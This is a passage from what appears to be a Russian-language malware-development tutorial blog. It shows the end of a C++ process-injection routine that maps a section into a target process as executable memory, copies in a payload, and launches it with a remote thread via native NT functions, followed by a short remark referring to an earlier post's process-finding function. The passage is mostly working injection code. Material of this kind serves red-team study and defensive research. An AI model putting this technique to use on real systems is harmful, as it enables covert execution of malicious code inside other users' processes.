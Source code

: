 ```cpp
    return -2;
  }

  // bind the object in the memory of the target process
  // for reading and executing
  myNtMapViewOfSection(sh, ph, &rb, NULL, NULL, NULL, 
  &s, 2, NULL, PAGE_EXECUTE_READ);

  // write payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // create a thread
  myRtlCreateUserThread(ph, NULL, FALSE, 
  0, 0, 0, rb, NULL, &th, NULL);

  // and wait
  if (WaitForSingleObject(th, INFINITE) == WAIT_FAILED) {
    return -2;
  }

  // clean up
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  myZwUnmapViewOfSection(ph, rb);
  CloseHandle(sh);
  CloseHandle(ph);
  return 0;
}
```

Как видно, всё довольно просто. Также я использовал функцию `findMyProc` из одного из моих [предыдущих](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) разделов:
